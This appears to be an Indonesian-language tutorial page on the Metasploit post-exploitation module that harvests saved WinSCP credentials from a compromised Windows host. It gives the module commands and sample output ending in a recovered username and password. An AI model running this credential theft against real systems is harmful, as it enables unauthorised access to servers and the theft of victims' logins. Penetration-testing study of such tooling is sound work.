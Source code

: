 # winscp

Modul `winscp` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak kredensial yang tersimpan dalam aplikasi `WinSCP`, termasuk `username`, `password terenkripsi`, dan `informasi koneksi`, yang dapat dimanfaatkan untuk mengakses server `FTP`, `SFTP`, atau `SCP` yang pernah digunakan oleh korban.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/credential/winscp
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Looking for WinSCP.ini file storage...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for C:\Windows\system32\config\systemprofile\AppData\Roaming\WinSCP.ini...
[*] Looking for Registry storage...
[+] Host: 192.168.1.27, IP: 192.168.1.27, Port: 22, Service: Unknown, Username: debian, Password: debian
[*] Post module execution completed
```
